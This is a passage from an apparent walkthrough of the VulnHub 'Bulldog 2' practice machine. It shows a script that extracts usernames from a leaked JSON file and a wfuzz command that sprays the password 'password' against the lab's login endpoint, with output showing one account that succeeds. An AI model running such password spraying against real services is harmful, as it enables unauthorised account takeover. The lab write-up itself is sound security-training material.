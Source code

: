 And the response is:

```
HTTP/1.1 401 Unauthorized
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 28 Oct 2022 14:08:27 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 41
Connection: keep-alive
X-Powered-By: Express
Access-Control-Allow-Origin: *
ETag: W/"29-PaR2ao+BjJ1D0mR+rg2OQmRvUow"

{"success":false,"msg":"Incorrect Login"}
```

Then I create a python script to separate the usernames found on the JSON file because they can be used for bruteforcing:

```python
import json

file = open('users.json')
data = json.load(file)

output = open("username_list.txt", "a")

for item in data:
    username = (item['username'])
    output.write(username + '\n')

file.close()
output.close()
```

With so many usernames to probe, there's gotta be at least one of them with a weak password such as 'password', so I run wfuzz against this list:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-2]
└─$ wfuzz -c -z file,/home/j/Desktop/vulnhub/bulldog-2/username_list.txt --hc 401 -H 'Content-Type: application/json' -d '{"username": "FUZZ", "password": "password"}' http://192.168.56.118/users/authenticate
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.56.118/users/authenticate
Total requests: 15760

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                            
=====================================================================

000000519:   200        0 L      3 W        470 Ch      "imsumner"                                         
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 863.9960
Processed Requests: 5512
Filtered Requests: 5511
Requests/sec.: 6.379658
```